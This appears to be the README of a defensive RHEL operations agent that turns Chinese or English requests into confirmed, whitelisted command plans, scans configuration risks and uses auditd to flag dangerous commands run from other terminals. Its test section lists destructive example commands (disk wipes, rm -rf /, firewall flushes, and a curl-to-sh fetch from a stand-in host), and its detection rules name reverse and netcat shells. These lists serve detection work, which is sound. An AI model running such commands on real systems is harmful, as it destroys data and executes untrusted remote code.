



# RHEL 护航员

面向 Red Hat Enterprise Linux 的中文/英文自然语言安全运维 Agent。它把“查看系统、修改网络、调整时区、切换语言、重启服务”等常见运维任务，转换成可核对的受控操作计划；同时巡检常见 Linux 配置风险，并采集另一个终端执行的高危命令。

项目默认不修改用户 shell，不注入 `PROMPT_COMMAND`，也不需要安装第三方 Python 包。默认使用完全本地的规则解析；可选接入 Qwen2.5-Instruct 等支持 Function Calling 的模型，通过本机 Ollama 或 OpenAI 兼容接口增强中文语义理解，但模型不能生成任意 Shell。

完整能力、示例和边界见 [FEATURES.md](FEATURES.md)；模型安装与接口细节见 [LLM.md](LLM.md)。

## 界面预览








## 目录

- [主要能力](#主要能力)
- [安全模型](#安全模型)
- [快速安装](#快速安装)
- [Web 使用](#web-使用)
- [命令行使用](#命令行使用)
- [LLM 升级](#llm-升级)
- [另一个终端的高危命令测试](#另一个终端的高危命令测试)
- [内置规则规模](#内置规则规模)
- [漏洞巡检项](#漏洞巡检项)
- [高危命令审计规则](#高危命令审计规则)
- [架构](#架构)
- [创新点](#创新点)
- [配置](#配置)
- [HTTP API](#http-api)
- [测试与验证](#测试与验证)
- [故障排查](#故障排查)
- [已知边界](#已知边界)

## 主要能力

### 1. 中文和英文自然语言操作

用户不需要记住 Linux 参数。例如：

```text
查看磁盘空间
把系统时区改成 Asia/Shanghai
把 ens160 的 IP 改成 192.168.1.50/24，网关 192.168.1.1，DNS 223.5.5.5
把系统语言改成中文
开放 8080 端口
查看失败的服务
show listening ports
restart sshd service
```

一个请求可以包含多个意图：

```text
把系统时间改成 2026-10-23 15:30:00，把 ens160 的 IP 改成
192.168.1.50/24，网关 192.168.1.1，DNS 223.5.5.5，
再把系统语言改成中文
```

系统会生成多个步骤，逐条展示命令、风险、影响和重启要求。用户可以选择执行全部或取消。

### 2. 变更前计划和二次确认

所有变更先生成“操作计划”，不会在理解请求后立即执行。

计划中包含：

- 每个操作的中文标题和风险等级
- 将要执行的命令预览
- 参数值和缺失参数
- 对业务、网络或账户的影响
- 是否需要重启或重新登录
- SSH 断连提示
- 必须输入的确认语

风险等级：

| 等级 | 含义 | 典型操作 |
|---|---|---|
| `safe` | 只读，不修改系统 | 查看磁盘、内存、端口、日志 |
| `caution` | 会改变配置或服务状态 | 改时区、改主机名、改语言、安装更新 |
| `destructive` | 可能中断业务或不可恢复 | 删除、重启、关机、改 IP、停止服务、卸载软件 |

高风险操作需要输入服务端生成的确认语。例如：

```text
确认重启
确认修改网络
确认删除文件
确认执行高风险操作
```

计划保存在 SQLite 中，有 15 分钟有效期，并且只能成功执行一次。

### 3. 默认只读的常见漏洞巡检

漏洞巡检不会安装软件、重启服务或修改配置。它读取：

- SELinux 和系统策略状态
- firewalld 状态与默认区域
- SSH 有效配置
- 系统账户和密码状态
- sudoers 免密规则
- 敏感文件权限
- dnf 安全更新和软件包签名设置
- chronyd、auditd、rsyslog 状态
- 内核安全参数
- NFS、USBGuard、AIDE 等常见加固项

结果按“严重、高危、中危、低危”分类，并给出中文处理建议。

### 4. 另一个终端的高危命令审计

Agent 通过两种来源采集命令：

1. 定向 `auditd execve` 规则。只记录高风险二进制，不接管 shell，不影响原有命令补全、快捷键或提示符。
2. `/var/log/secure`、sudo 日志和用户命令历史作为补充来源。

常见被测命令包括：

- 递归删除、格式化磁盘、覆写块设备
- 重启、关机、停止 SSH/防火墙/auditd
- 清空防火墙或网络地址
- 关闭 SELinux
- 修改 sudoers、授权密钥、计划任务
- 清除命令历史或删除日志
- 远程脚本管道执行、反弹 Shell
- 特权容器、批量结束进程、卸载核心软件包

注意：这是“监测和告警”，不是另一个终端上的强制阻断。通过 Agent 自己执行的高风险操作会被确认机制拦截；其他终端直接运行的危险命令会被 auditd 记录并在 Agent 中告警。

### 5. 面向非 Linux 用户的 Web 控制台

Web 控制台提供：

- 安全评分和高危项数量
- 最近高危命令
- 对话式操作计划
- 漏洞详情与修复建议
- 命令审计和事件确认
- 完整规则库搜索
- 本机演示模式

### 6. 不改变原命令行的 CLI

安装后可以直接使用：

```bash
sudo rhel-agent "查看磁盘空间"
sudo rhel-agent
```

第二种方式会进入 Agent 自己的 `rhel-agent>` 交互提示符。退出后回到原来的 bash/zsh，不修改 `.bashrc`、`.zshrc` 或 shell 提示符。

## LLM 升级

LLM 是可选语义理解层，默认关闭。即使启用，危险请求仍由本地规则先做硬拦截，模型只能返回规则表中的动作 ID 和参数。

### 最简单：直接调用智谱 GLM

先在智谱开放平台（<https://open.bigmodel.cn/>）创建 API Key，然后在 RHEL 执行：

```bash
cd rhel-ops-agent
sudo bash install.sh
sudo bash scripts/setup-glm-api.sh
sudo rhel-agent llm-test
```

脚本会隐藏输入 API Key，并自动写入：

```text
RHEL_OPS_LLM_ENABLED=1
RHEL_OPS_LLM_MODE=llm_first
RHEL_OPS_LLM_PROVIDER=openai-compatible
RHEL_OPS_LLM_BASE_URL=https://open.bigmodel.cn/api/paas/v4
RHEL_OPS_LLM_MODEL=glm-4-plus
RHEL_OPS_LLM_API_KEY=***
RHEL_OPS_LLM_STRUCTURED_OUTPUT=0
```

随后可直接使用：

```bash
sudo rhel-agent "机器有点卡，帮我看下谁占 CPU 高"
sudo rhel-agent "show failed services"
```

密钥只保存在 `/etc/rhel-ops-agent/agent.env`，权限为 `0600`，不会进入 Git，也不会返回给 Web。

### 推荐模型

- GLM API 首选：`glm-4-plus`（`glm-4-air` 更便宜；`glm-4-flash` 工具调用不稳定）
- Qwen API：`qwen-plus`
- 本机离线首选：`qwen2.5:7b-instruct`
- 备选：`deepseek-v2`、`llama3` 等支持工具调用和结构化输出的版本
- 不推荐：无法稳定输出 `tool_calls` 的闲聊模型

模型权重约数 GB，不放入 Git 仓库。RHEL 本机安装 Ollama 后，模型会保存在系统模型目录。

### 本机离线：Ollama + Qwen

```bash
cd rhel-ops-agent

# 第一次安装 Ollama 时显式确认使用官方安装脚本
sudo RHEL_OPS_INSTALL_OLLAMA=1 bash scripts/setup-ollama.sh
```

脚本会：

1. 下载 Ollama 官方安装脚本（仅在显式设置 `RHEL_OPS_INSTALL_OLLAMA=1` 时）。
2. 启动 `ollama` 服务。
3. 拉取 `qwen2.5:7b-instruct`。
4. 写入 `/etc/rhel-ops-agent/agent.env`。
5. 重启 RHEL Ops Agent 服务。

如果 Ollama 已安装，只需：

```bash
sudo bash scripts/setup-ollama.sh
```

验证：

```bash
sudo rhel-agent rules
sudo rhel-agent "帮我看一下机器为什么卡，顺便看看网络能不能通"
```

### 手动配置 Ollama

```bash
export RHEL_OPS_LLM_ENABLED=1
export RHEL_OPS_LLM_MODE=llm_first
export RHEL_OPS_LLM_PROVIDER=ollama
export RHEL_OPS_LLM_BASE_URL=http://127.0.0.1:11434
export RHEL_OPS_LLM_MODEL=qwen2.5:7b-instruct
```

### OpenAI 兼容接口

```bash
export RHEL_OPS_LLM_ENABLED=1
export RHEL_OPS_LLM_MODE=llm_first
export RHEL_OPS_LLM_PROVIDER=qwen
export RHEL_OPS_LLM_BASE_URL=https://dashscope.aliyuncs.com/compatible-mode/v1
export RHEL_OPS_LLM_MODEL=qwen-plus
export RHEL_OPS_LLM_API_KEY=your-secret
```

远程接口必须使用 HTTPS；明文 HTTP 只允许本机回环地址。

### 模式和回退

| 模式 | 行为 |
|---|---|
| `off` | 只用本地规则 |
| `llm_first` | **默认**：LLM 先规划，规则引擎做校验与兜底 |
| `hybrid` | 规则优先，未命中或缺少参数时才调用 LLM |
| `always` | 同 `llm_first`（旧名，兼容保留） |

LLM 失败、超时、输出自由文本、未知动作或未知参数时，Agent 会回退本地规则，不会尝试执行模型给出的任意命令。连续 3 次失败会熔断 60 秒，避免每个请求都等超时。

### Function Calling 约束

- 唯一工具：`submit_operations`
- 工具参数使用 JSON Schema
- 动作 ID 限定为内置 101 个操作
- 参数必须属于对应动作
- 模型输出经过参数模式和风险校验
- 高风险动作仍需确认语

## 安全模型

### 不做的事

- 不开放任意 shell 输入框
- 不把自然语言直接交给 `bash -c`
- 不使用 `shell=True`
- 不允许用户自定义命令模板
- 不自动执行删除、重启、改网络等高风险操作
- 不覆盖用户的 shell 配置
- 不在默认配置下监听公网地址

### 执行链路

```text
自然语言
   |
   v
规则匹配 + 参数提取 + 参数校验
   |
   v
SQLite 中保存操作计划快照
   |
   v
前端或 CLI 展示命令与影响
   |
   v
用户输入确认语
   |
   v
重新校验计划、参数、路径和确认语
   |
   v
subprocess.run(argv, shell=False)
```

### 额外保护

- 命令参数只来自规则表和经过正则校验的变量
- 所有路径必须是绝对路径
- `/`、`/etc`、`/usr`、`/boot`、`/dev`、`/proc`、`/sys`、`/var/lib` 等关键路径禁止删除
- `rm` 只接受规则生成的 `rm -rf -- <absolute-path>` 形式
- 管理员密码使用 PBKDF2-HMAC-SHA256 存储
- Web 会话使用 HMAC 签名的 HttpOnly Cookie
- 登录失败有速率限制
- POST 请求校验同源 `Origin`
- 页面设置 CSP、`X-Frame-Options: DENY`、`nosniff`
- Web 默认绑定 `127.0.0.1`

## 快速安装

### 环境要求

- Red Hat Enterprise Linux 9.x 推荐
- RHEL 8.x 需要可用的 Python 3.9+ 运行时
- systemd
- 建议安装并启用 `auditd`
- root 权限
- 现代浏览器

程序不需要 pip、npm、数据库服务器或互联网连接。

### 一键安装

把项目目录上传到 RHEL，然后执行：

```bash
cd rhel-ops-agent
sudo bash install.sh
```

安装脚本会：

1. 把程序安装到 `/opt/rhel-ops-agent`
2. 把数据放到 `/var/lib/rhel-ops-agent`
3. 把配置放到 `/etc/rhel-ops-agent/agent.env`
4. 生成随机管理员密码
5. 安装 systemd 服务
6. 安装定向 auditd 规则
7. 启动 `rhel-ops-agent.service`
8. 创建 `/usr/local/bin/rhel-agent`

安装结束时，终端会显示初始密码和本机 Web 地址。密码文件默认位于：

```text
/var/lib/rhel-ops-agent/initial-password.txt
```

### Linux 一键运行并进入命令行

需要一步安装、启动并直接进入 Agent 命令行时：

```bash
sudo bash run.sh
```

首次运行会自动完成安装和启动，然后进入：

```text
rhel-agent> 查看磁盘空间
rhel-agent> 把系统时区改成 Asia/Shanghai
rhel-agent> 查看待安装的安全更新
rhel-agent> /scan
rhel-agent> /exit
```

也可以把自然语言请求直接作为参数：

```bash
sudo bash run.sh "查看磁盘空间"
```

安装完成后，日常使用不需要再次运行安装器：

```bash
sudo rhel-agent
```

### 从 Windows 传到 RHEL 虚拟机

项目根目录提供 Linux 分发包：

```text
dist/rhel-ops-agent-linux.tar.gz
```

在 Windows PowerShell 中上传，把用户名和地址换成你的虚拟机信息：

```powershell
scp .\dist\rhel-ops-agent-linux.tar.gz alice@192.168.56.10:/tmp/
```

然后在 Windows PowerShell 或 PuTTY 登录虚拟机：

```bash
ssh alice@192.168.56.10
```

在 RHEL 虚拟机中执行：

```bash
cd /tmp
tar -xzf rhel-ops-agent-linux.tar.gz
cd rhel-ops-agent
sudo bash run.sh
```

首次运行会自动安装、启动 Web 服务并进入：

```text
rhel-agent>
```

可以先运行这些只读命令：

```text
rhel-agent> 查看系统概况
rhel-agent> 查看磁盘空间
rhel-agent> 查看网络配置
rhel-agent> 查看高危日志
rhel-agent> /exit
```

RHEL 8 如果默认 Python 低于 3.9，先执行：

```bash
sudo dnf install -y python39 audit
```

安装器会自动寻找 `python3.9`、`python3.10`、`python3.11`、`python3.12` 或合格的 `python3`。

### 在 Windows 浏览器查看 RHEL 上的 Web 控制台

服务默认只监听虚拟机本机 `127.0.0.1:8765`。在 Windows PowerShell 建立 SSH 隧道：

```powershell
ssh -L 8765:127.0.0.1:8765 alice@192.168.56.10
```

保持该窗口打开，然后在 Windows 浏览器访问：

```text
http://127.0.0.1:8765
```

这样做不需要把 8765 端口开放到局域网或公网。

### 验证另一个终端的命令监测

保留第一个 SSH 窗口运行隧道，再打开第二个 SSH 窗口：

```bash
sudo /opt/rhel-ops-agent/scripts/live-audit-test.sh
```

该脚本只创建并删除一个临时目录，然后触发 Agent 采集。正常情况下，高危日志中应出现 `递归强制删除文件`。

也可以运行不执行危险命令的完整攻击矩阵：

```bash
sudo rhel-agent attack-demo
```

### 手动指定密码

```bash
export RHEL_OPS_ADMIN_PASSWORD='一个至少8位的强密码'
sudo -E bash install.sh
```

如果数据库中已经存在管理员密码，重新运行安装脚本不会覆盖。

### 服务管理

```bash
sudo systemctl status rhel-ops-agent
sudo systemctl restart rhel-ops-agent
sudo journalctl -u rhel-ops-agent -f
```

### 卸载

保留数据：

```bash
sudo bash /opt/rhel-ops-agent/scripts/uninstall.sh
```

彻底删除数据和配置：

```bash
sudo bash /opt/rhel-ops-agent/scripts/uninstall.sh --purge
```

`--purge` 要求再次输入 `DELETE`。

## Web 使用

### 通过 SSH 隧道访问

默认情况下服务只监听本机：

```bash
ssh -L 8765:127.0.0.1:8765 your-user@rhel-host
```

然后在自己的电脑打开：

```text
http://127.0.0.1:8765
```

这是推荐方式。Web 管理端拥有执行系统变更的能力，不应直接暴露到公网。

### 页面功能

1. **总览**：安全评分、漏洞数量、24 小时高危命令、系统状态。
2. **对话操作**：输入中文或英文，查看计划、风险提示和确认语。
3. **漏洞巡检**：启动只读检查，筛选严重/高危/中危/低危结果。
4. **高危日志**：查看另一个终端和 Agent 执行的高风险命令，确认事件。
5. **规则库**：搜索 101 个受控操作，查看风险和重启要求。

### 修改监听地址

编辑：

```bash
sudo vi /etc/rhel-ops-agent/agent.env
```

例如仅允许内网访问某张网卡对应地址：

```ini
RHEL_OPS_HOST=10.10.20.15
RHEL_OPS_PORT=8765
```

重启服务：

```bash
sudo systemctl restart rhel-ops-agent
```

如果确实需要 `0.0.0.0`，请同时配置防火墙、VPN、反向代理和 HTTPS。内建 Web 服务本身不终止 TLS。

## 命令行使用

### 单次请求

```bash
sudo rhel-agent "查看磁盘空间"
sudo rhel-agent "查看失败的服务"
sudo rhel-agent "把系统时区改成 Asia/Shanghai"
sudo rhel-agent "把系统语言改成中文"
```

只读操作会显示命令预览并执行。变更操作会要求输入确认语。

### 只看计划

```bash
sudo rhel-agent "重启系统" --dry-run
```

不会执行任何命令。

### 非交互确认

适合自动化脚本或受控远程执行：

```bash
sudo rhel-agent "重启系统" --confirm "确认重启"
```

确认语不匹配时，命令不会执行。

### 交互模式

```bash
sudo rhel-agent
```

```text
rhel-agent> 查看磁盘空间
rhel-agent> 把系统语言改成中文
rhel-agent> /scan
rhel-agent> /audit
rhel-agent> /rules
rhel-agent> /exit
```

交互模式只存在于 Agent 进程内，不会修改当前 shell。

### 其他命令

```bash
sudo rhel-agent scan
sudo rhel-agent audit
sudo rhel-agent rules
sudo rhel-agent status
sudo rhel-agent attack-demo
```

### 本地演示

无需 RHEL、无需 root，在 Windows、macOS 或普通 Linux 上也可以体验界面和规则：

```bash
python3 app.py web --demo
```

或者：

```bash
bash scripts/demo.sh
```

演示密码：

```text
rhel-demo
```

`--demo` 下的执行器不会调用真实系统命令，只会返回模拟输出。

### Windows 双击预览

Windows 已安装 Python 3.9+ 时，直接双击：

```text
start-windows.bat
```

脚本会：

1. 启动本地演示服务
2. 自动选择空闲端口并打开浏览器
3. 使用临时数据目录，不污染项目
4. 关闭登录，方便直接查看页面
5. 保持演示模式，所有命令只返回模拟结果

停止演示时，在命令行窗口按 `Ctrl+C`。

如需在 Windows 上测试真实 GLM API：

```text
双击 setup-glm-windows.bat
输入智谱 GLM API Key
双击 start-windows.bat
```

API Key 会写入被 Git 忽略的 `.env.windows`。LLM 会真实解析中文或英文请求，但 Windows 演示仍不会执行真实 Linux 命令。

如果没有 Python，也可以直接在 GitHub/文件管理器中打开 `README.md` 查看界面截图。

## 另一个终端的高危命令测试

### 安全攻击矩阵

以下命令只验证规则，不会执行危险动作：

```bash
sudo rhel-agent attack-demo
```

当前矩阵包含：

- 68 个自然语言规划用例
- 23 个高危命令识别用例
- 共 104 个用例

预期结果：

```text
结果：104/104 通过，0 失败
```

### 写入 Web 模拟事件

```bash
sudo rhel-agent attack-demo --inject
```

会向审计库写入 5 条 `simulation` 来源的事件，方便在 Web 页面查看告警效果。不会执行 `rm`、`iptables`、`systemctl stop` 等危险命令。

### 从另一个终端触发真实 auditd

打开第二个 SSH 终端，执行：

```bash
sudo /opt/rhel-ops-agent/scripts/live-audit-test.sh
```

脚本只创建一个临时目录，然后删除这个临时目录。该命令会真实经过 auditd，但不会触及系统文件。随后脚本会让 Agent 立即采集日志。

预期日志中出现：

```text
recursive_force_delete
```

### 手工安全测试

可以自己创建一个测试目录：

```bash
mkdir -p /tmp/rhel-agent-lab/victim
touch /tmp/rhel-agent-lab/victim/demo.txt
rm -rf /tmp/rhel-agent-lab/victim
```

第二条 `rm` 会被记录为高危命令，但目标只包含测试文件。

以下命令仅用于说明会被识别的模式，禁止在生产主机执行：

```text
rm -rf /
mkfs.ext4 /dev/sda
dd if=/dev/zero of=/dev/sda
setenforce 0
iptables -F
systemctl stop sshd
nmcli connection down ens160
chmod -R 777 /var/www
crontab -r
history -c
curl http://example.invalid/x | sh
```

## 内置规则规模

| 类型 | 数量 | 说明 |
|---|---:|---|
| 受控运维操作 | 101 | 自然语言映射到固定命令模板 |
| 漏洞/配置巡检项 | 30 | 只读检查 |
| 高危命令审计规则 | 44 | 支持带参数修正的日志识别 |
| 攻击矩阵用例 | 104 | 规划与日志双链路测试 |

### 受控操作概览

| 类别 | 操作 |
|---|---|
| 系统 | 概况、内核、CPU、内存、语言、主机名、tuned、运行时长 |
| 网络 | IPv4/IPv6、路由、网关、连接、DNS、连通性、静态地址、DHCP |
| 存储 | 磁盘、inode、块设备、挂载、文件检查、目录创建、路径删除 |
| 服务 | 失败/运行/自启服务、状态、日志、启动、停止、重启 |
| 防火墙 | 规则、服务、端口、区域、启用、重载 |
| 安全 | SELinux、SSH、审计状态、安全更新、RPM 密钥 |
| 账户 | 用户、组、在线登录、失败登录、锁定、解锁、密码状态 |
| 软件 | 安装、卸载、仓库、DNF 历史、订阅状态 |
| 进程 | CPU/内存高占用、指定用户进程、结束进程 |
| 电源与日志 | 重启、关机、启动错误、journal、计划任务 |

## 漏洞巡检项

| ID | 检查内容 | 默认等级 |
|---|---|---|
| `selinux_not_enforcing` | SELinux 未处于 Enforcing | 高危 |
| `firewalld_inactive` | firewalld 未运行 | 高危 |
| `sshd_root_login` | SSH 允许 root 直接登录 | 高危 |
| `sshd_password_auth` | SSH 密码认证开启 | 中危 |
| `sshd_empty_password` | SSH 允许空密码 | 严重 |
| `sshd_max_auth_tries` | MaxAuthTries 过大 | 低危 |
| `sshd_weak_crypto` | SSH 弱算法 | 高危 |
| `firewalld_trusted_zone` | 默认区域为 trusted | 高危 |
| `pending_security_updates` | 存在待安装安全更新 | 中危 |
| `dnf_gpgcheck_disabled` | 软件包签名校验关闭 | 高危 |
| `chronyd_inactive` | 时间同步未运行 | 中危 |
| `auditd_inactive` | 审计服务未运行 | 中危 |
| `rsyslog_inactive` | rsyslog 未运行 | 低危 |
| `password_no_expiry` | 人类账户密码永不过期 | 低危 |
| `uid_zero_duplicate` | 多个 UID 0 账户 | 高危 |
| `empty_password_accounts` | 空密码账户 | 严重 |
| `sudo_nopasswd` | sudo 免密提权 | 高危 |
| `sensitive_world_writable` | 敏感文件全局可写 | 严重 |
| `tmp_missing_isolation` | /tmp 缺少隔离挂载选项 | 低危 |
| `crypto_policy_legacy` | 系统加密策略为 LEGACY | 高危 |
| `aslr_disabled` | ASLR 未完全启用 | 中危 |
| `ip_forwarding_enabled` | IPv4 转发开启 | 低危 |
| `core_dump_suid_enabled` | SUID 程序核心转储开启 | 中危 |
| `nfs_exports_wildcard` | NFS 导出过宽 | 高危 |
| `telnet_server_installed` | 安装 Telnet 服务端 | 高危 |
| `ftp_server_installed` | 安装明文 FTP | 中危 |
| `dnf_automatic_disabled` | 自动安全更新未启用 | 低危 |
| `usbguard_absent` | USBGuard 未运行 | 低危 |
| `aide_absent` | 未安装 AIDE | 低危 |
| `journald_volatile` | journald 未持久化 | 低危 |

## 高危命令审计规则

当前内置 44 条规则，重点覆盖：

- 根目录递归删除
- 递归强制删除
- `mkfs`、`dd of=/dev/*`、`wipefs`
- 重启、关机
- 关闭 SELinux
- 清空 iptables/nft 规则
- 停止 firewalld、sshd、auditd
- 断开网络连接、清空 IP
- 全局开放权限
- 清空 crontab
- 删除 audit 规则
- 删除用户
- 修改 sudoers
- 清除 shell 历史
- 远程脚本管道执行
- 反弹 Shell
- 写入 `authorized_keys`
- 删除安全日志
- 特权容器
- 批量杀进程
- 卸载核心系统包
- 卸载内核模块
- 削弱内核安全参数
- Fork Bomb、网络扫描、口令爆破
- Netcat Shell、Base64 管道执行
- 挖矿进程、UID 0 账户、删除 root 密码
- 绕过 RPM GPG 校验、停止 NetworkManager

每条审计事件记录：

- 来源：`auditd`、`history`、`secure`、`agent`、`planner`、`simulation`
- 用户名
- 原始命令
- 命中的规则
- 严重等级
- 首次发现时间
- 是否已确认

敏感参数会在入库前脱敏，例如 `--password`、Bearer Token 和 URL 中的密码。

## 架构

```text
┌──────────────────────────────┐
│ Browser SPA                  │
│ 总览 / 对话 / 漏洞 / 日志     │
└──────────────┬───────────────┘
               │ HTTP + 签名会话
┌──────────────▼───────────────┐
│ Python 标准库 HTTP Server    │
│ 鉴权 / CSRF / 路由 / 限流     │
└───────┬──────────────┬───────┘
        │              │
┌───────▼──────┐ ┌─────▼─────────┐
│ 规则规划引擎  │ │ 只读巡检引擎   │
│ 101 个操作    │ │ 30 个检查项    │
└───────┬──────┘ └─────┬─────────┘
        │              │
┌───────▼──────────────▼─────────┐
│ SQLite 计划 / 结果 / 审计事件   │
└───────┬────────────────────────┘
        │
┌───────▼────────────────────────┐
│ 白名单执行器 subprocess(shell=False) │
└────────────────────────────────┘

另一个终端
   │
   ├── auditd execve ──┐
   ├── /var/log/secure ├──> 审计分析器 ──> SQLite
   └── history 文件 ───┘
```

### 模块说明

| 文件 | 职责 |
|---|---|
| `agent/engine.py` | 自然语言规则匹配、参数提取、计划生成 |
| `agent/llm.py` | Function Calling、JSON Schema、Ollama/OpenAI 兼容客户端 |
| `agent/executor.py` | 确认语校验、命令白名单、受控执行 |
| `agent/scanner.py` | 30 项只读漏洞巡检 |
| `agent/audit.py` | auditd、secure、history 采集和规则匹配 |
| `agent/server.py` | HTTP API、登录、会话、静态页面 |
| `agent/cli.py` | 命令行、交互模式、演练命令 |
| `agent/auth.py` | PBKDF2 密码和签名会话 |
| `rules/commands.json` | 基础受控运维操作 |
| `rules/extra_commands.json` | 扩展网络、服务、账户与安全操作 |
| `rules/extra_commands_more.json` | 仓库、日志、订阅、进程与网络明细操作 |
| `rules/vulnerabilities.json` | 30 个巡检规则 |
| `rules/audit_patterns.json` | 基础命令审计规则 |
| `rules/extra_audit_patterns.json` | Fork Bomb、扫描、爆破、挖矿等扩展规则 |
| `web/` | 零构建前端 |

## 创新点

### 1. 面向非运维用户的“计划优先”交互

系统不是“听懂后直接执行”，而是把自然语言转换成非技术人员也能读懂的计划：

- 这一步要做什么
- 实际命令是什么
- 会不会断开 SSH
- 哪些服务会中断
- 是否需要重启
- 是否无法恢复

高风险操作必须输入与操作内容相关的确认语，而不是只点一个容易误触的按钮。

### 2. 规则驱动的可解释 Agent

默认不依赖外部模型，因此：

- 离线可用
- 响应稳定
- 不把主机信息发送到外部
- 每个结果都能追溯到规则文件
- 规则可以审计、测试和版本管理

启用 LLM 后，自然语言层采用“规则快速路径 + 模型语义补位”：高置信度标准说法直接命中规则，复杂表达和缺失参数由模型解释，输出仍映射到明确允许的动作 ID。LLM 失败时自动回到确定性规则，不对 root 权限 Agent 开放任意命令生成能力。

### 3. 多意图分解和冲突消解

同一句话可以同时生成“改时间 + 改 IP + 改语言”三个步骤。网络操作使用互斥分组，避免“IP 和 DNS”同时命中静态地址规则与单独 DNS 规则。

### 4. 上下文风险提醒

改网络、重启 SSH 或停止 SSH 时，计划会显示 SSH 断连提示。检测到通过远程连接访问 Web 时，提示会进一步强调风险。

修改系统语言后，结果会提示重新登录或重启；安装安全更新后也会提示某些内核/运行库更新需要重启。

### 5. 不修改 shell 的跨终端审计

很多“命令审计”方案依赖 shell hook，会侵入用户环境。本项目使用定向 auditd `execve` 规则，只监听高风险二进制，并保留日志/历史文件作为兼容回退。

### 6. CLI 与 Web 共用同一安全内核

两个入口使用相同的：

- 规则表
- 参数校验
- 确认语
- SQLite 审计库
- 执行器

不会出现“Web 有保护、CLI 可绕过”的两套逻辑。

